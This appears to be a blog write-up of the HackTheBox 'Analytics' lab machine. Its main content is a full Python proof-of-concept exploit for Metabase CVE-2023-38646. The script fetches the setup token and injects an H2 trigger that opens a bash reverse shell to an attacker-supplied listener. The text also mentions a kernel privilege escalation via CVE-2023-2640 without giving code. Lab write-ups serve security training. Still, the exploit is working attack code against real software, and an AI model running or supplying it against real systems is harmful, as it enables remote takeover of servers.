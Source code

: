 ```yaml
---
layout: post
title: "Analytics-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/f86fcf4c1cfcc690b43f43e100f89718.webp
---
```


# Analytics

HackTheBox: Medium

<aside>
💡 Analytics is a linux machine where we can exploit some vulnerabilities(**RCE vulnerability**), and learn the importance of save sensitive information.

</aside>

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled.png' | relative_url }})
<br/><br/>
Let’s look around http service
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_1.png' | relative_url }})
<br/><br/>
A login interface change to this subdomain
<br/><br/>
Metabase has a vulnerability (CVE-2023-38646)
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_2.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
Use this POC
<br/><br/>
```python
import requests
import argparse
import base64
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from urllib.parse import urlparse

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_setup_token_and_version(ip_address):
    endpoint = "/api/session/properties"
    url = f"{ip_address}{endpoint}"
    try:
        print(f"[DEBUG] Fetching setup token from {url}")
        response = requests.get(url, verify=False)
        if response.status_code == 200:
            data = response.json()
            setup_token = data.get("setup-token")
            metabase_version = data.get("version", {}).get("tag")

            if setup_token is None:
                print(f"[DEBUG] Setup token not found or is null for IP: {ip_address}\n")
            else:
                print(f"[DEBUG] Setup Token: {setup_token}")
                print(f"[DEBUG] Version: {metabase_version}")

            return setup_token
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {ip_address}.\n")

def post_setup_validate(ip_address, setup_token, listener_ip, listener_port):
    payload = base64.b64encode(f"bash -c 'bash -i >&/dev/tcp/{listener_ip}/{listener_port} 0>&1'".encode()).decode()

    print(f"[DEBUG] Payload = {payload}")

    endpoint = "/api/setup/validate"
    url = f"{ip_address}{endpoint}"
    headers = {'Content-Type': 'application/json'}
    data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "test",
            "engine": "h2"
        }
    }

    print(f"[DEBUG] Sending request to {url} with headers {headers} and data {json.dumps(data, indent=4)}")

    try:
        response = requests.post(url, headers=headers, json=data, verify=False)
        print(f"[DEBUG] Response received: {response.text}")
        if response.status_code == 200:
            print(f"[DEBUG] POST to {url} successful.\n")
        else:
            print(f"[DEBUG] POST to {url} failed with status code: {response.status_code}\n")
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {url}\n")

def preprocess_url(user_input):
    parsed_url = urlparse(user_input)
    protocol = f"{parsed_url.scheme}://" if parsed_url.scheme else "http://"
    netloc = parsed_url.netloc or parsed_url.path
    return protocol + netloc.rstrip('/')

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Check setup token')
    parser.add_argument('--rhost', type=str, help='Metabase server IP address (including http:// or https:// and port number if needed)')
    parser.add_argument('--lhost', type=str, help='Listener IP address')
    parser.add_argument('--lport', type=int, default=4444, help='Listener port (default is 4444)')
    args = parser.parse_args()

    print(f"[DEBUG] Original rhost: {args.rhost}")
    args.rhost = preprocess_url(args.rhost)
    print(f"[DEBUG] Preprocessed rhost: {args.rhost}")

    print(f"[DEBUG] Input Arguments - rhost: {args.rhost}, lhost: {args.lhost}, lport: {args.lport}")

    setup_token = get_setup_token_and_version(args.rhost)
    print(f"[DEBUG] Setup token: {setup_token}")
    if setup_token:
        post_setup_validate(args.rhost, setup_token, args.lhost, args.lport)
```

<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_3.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_4.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_5.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_6.png' | relative_url }})
<br/><br/>
We see a kernel with an outdated version (CVE-2023-2640)
<br/><br/>
Just give it executable premises after downloaded it on tmp
<br/><br/>
We’ve got root flag
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
